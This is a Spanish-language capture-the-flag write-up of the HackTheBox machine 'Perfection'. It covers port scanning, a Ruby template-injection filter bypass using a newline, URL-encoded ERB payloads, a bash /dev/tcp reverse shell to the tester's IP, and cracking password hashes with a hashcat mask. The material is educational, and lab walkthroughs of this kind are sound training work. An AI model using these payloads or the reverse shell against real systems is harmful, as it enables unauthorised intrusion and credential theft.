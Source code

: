 ```yaml
---
title: Perfection - Hackthebox
date: 2024-07-19
categories: [Write up, linux, Hackthebox]
tags: [sqlmap, Server Template Injection, Ruby regex,sqlite3, sudo, hashcat]      # TAG names should always be lowercase
---
```


![20240717221111.png](20240717221111.png)

Perfection es una sencilla máquina Linux que cuenta con una aplicación web con funcionalidad para calcular las puntuaciones de los estudiantes. Esta aplicación es vulnerable a la inyección de plantillas del lado del servidor (SSTI) mediante la omisión del filtro de expresiones regulares. Se puede obtener un punto de apoyo explotando la vulnerabilidad SSTI. Al enumerar al usuario se revela que forma parte del grupo `sudo`. Una enumeración posterior descubre una base de datos con hashes de contraseñas y el correo electrónico del usuario revela un posible formato de contraseña. Mediante un ataque de máscara en el hash, se obtiene la contraseña del usuario, que se aprovecha para obtener acceso `root`.


# Enumeración

Iniciamos con la enumeración de los puertos.

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.253 -oG allportsScan

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

Encontraremos que se tiene el 22 y 80 como puertos abierto y ejecutandose el servicio ssh y http en cada uno respectivamente.

```c
❯ nmap -p22,80 -sC -sV -vvv -Pn -n 10.10.11.253 -oN servicesScan


PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack nginx
|_http-title: Weighted Grade Calculator
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Puerto 80

Al visitar el sitio web encontraremos con el siguiente contenido:

![20240717231524.png](20240717231524.png)

Navegando entre las pestañas encontraremos una calculadora de grado ponderado

![20240718145215.png](20240718145215.png)

Esta petición la intercepte con burpSuite y trate de inyectar algún comando, pero me daba un respuesta de `Malicious input...`

![20240718145236.png](20240718145236.png)

Estuve variando las petición y me di cuenta que no es el comando lo que realmente bloquea, lo que bloquea es el carácter `;/=...` 

![20240718145258.png](20240718145258.png)

# Explotación

Antes debemos de revisar algunos payloads, además de que estamos ante el lenguaje de ruby. Teniendo en cuenta esto proseguimos con la explotación.

- [Server Templete Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

Ruby Regex

```ruby
irb(main):003:0> "test" =~ /^[a-zA-Z]+$/ 
=> 0
```

- **Expresión regular:** `^[a-zA-Z]+$`
    - `^` indica el comienzo de la cadena.
    - `[a-zA-Z]` indica que la cadena puede contener cualquier letra (mayúscula o minúscula).
    - `+` indica una o más ocurrencias de la clase de caracteres anterior.
    - `$` indica el final de la cadena.
- **Cadena:** `"test"`
- **Resultado:** `0`
    - La cadena `"test"` coincide completamente con la expresión regular.
    - `0` indica que la coincidencia se encuentra al principio de la cadena (índice 0).

```ruby
irb(main):004:0> "test\n{{}}" =~ /^[a-zA-Z]+$/ 
=> 0
```

- **Expresión regular:** `^[a-zA-Z]+$`
- **Cadena:** `"test\n{{}}"`
- **Resultado:** `0`
    - Aunque la cadena contiene caracteres adicionales (`\n{{}}`), la coincidencia todavía devuelve `0`. Esto se debe a que en Ruby, las expresiones regulares por defecto no funcionan en modo multilinea y sólo evalúan hasta la primera línea de texto por defecto.
    - `0` indica que la coincidencia se encuentra al principio de la cadena, es decir, `"test"` coincide con la expresión regular.
    - **Nota:** Este comportamiento no es el esperado generalmente y sugiere que el regex no está en modo multlinea, que se puede activar usando la bandera `/m`.

```ruby
irb(main):008:0> "test{{}}" =~ /^[a-zA-Z]+$/ 
=> nil
```

- **Expresión regular:** `^[a-zA-Z]+$`
- **Cadena:** `"test{{}}"`
- **Resultado:** `nil`
    - La cadena `"test{{}}"` no coincide con la expresión regular.
    - Esto se debe a que la expresión regular requiere que la cadena contenga solo letras (mayúsculas o minúsculas) desde el principio (`^`) hasta el final (`$`).
    - Los caracteres `{{}}` no están permitidos por la expresión regular, por lo tanto, no hay coincidencia.

La expresión regular `^[a-zA-Z]+$` se utiliza para verificar si una cadena consiste únicamente de letras (mayúsculas y minúsculas) desde el principio hasta el final. En los ejemplos dados:

- `"test"` coincide completamente con la expresión regular.
- `"test\n{{}}"` coincide solo hasta la primera línea debido al comportamiento por defecto de las expresiones regulares en Ruby.
- `"test{{}}"` no coincide debido a la presencia de caracteres no permitidos por la expresión regular.

Luego de entender como puede funcionar podemos hacer uso del siguiente payload

```c

<%= IO.popen('ls /').readlines()  %>
```

A esto antecediendo un salto de linea

![20240718144916.png](20240718144916.png)

Luego podemos usar el urlencode del mismo burpsuite o el sitio web de [url encode](
https://www.urlencoder.org/)

BurpSuite
```c
category1=test%0a%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%6c%73%20%2f%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e&grade1=1&weight1=20&category2=s&grade2=3&weight2=20&category3=d&grade3=2&weight3=20&category4=c&grade4=4&weight4=20&category5=d&grade5=6&weight5=20
```

UrlEncode - Web Site:
```c
%0A%3C%25%3D%20IO.popen%28%27ls%20%2F%27%29.readlines%28%29%20%20%25%3E
```

Luego de tener en url encode podemos enviar la petición y veremos que efectivamente funciona:

![20240718145408.png](20240718145408.png)

Ahora intentaremos enviarnos una revershell
```c
\n
<%= IO.popen("bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/443 <&1'").readlines()  %>
```

urlEncode:

```c
%0A%3C%25%3D%20IO.popen%28%22bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.10.14.15%2F443%20%3C%261%27%22%29.readlines%28%29%20%20%25%3E
```

Luego de tener nuestra revershell en urlencode podemos enviar la petición y debemos de obtener una shell.
![20240718150602.png](20240718150602.png)

# Escalada de privilegios

## Usuario susan
![20240718150538.png](20240718150538.png)

Enumerando e directorio del usuario actual (`susan`) podremos encontrar un archivo `pupilpath_credentials.db` en donde encontraremos credenciales

![20240718161405.png](20240718161405.png)

Estas credenciales estan encriptadas

```c
Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

También observamos que pertenecemos al grupo de `sudo`, esto nos viene bien ya que si logramos obtener las credenciales del usuario actual podremos escalar privilegios directamente.

![20240718161324.png](20240718161324.png)

Siguiendo enumerando observaremos un correo de `Susan`, en la que nos da una pista de cual es la contraseña en texto plano.


![20240718161342.png](20240718161342.png)

Haciendo uso de hashcat podremos crackear el hash del usuario `susan`:

```c
hashcat -m 1400 hash_susan.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d"
```

![20240718161624.png](20240718161624.png)

Logramos obtener las credenciales de `susan`: 

```c
susan : susan_nasus_413759210
```

## Usuario : root

![20240718161726.png](20240718161726.png)

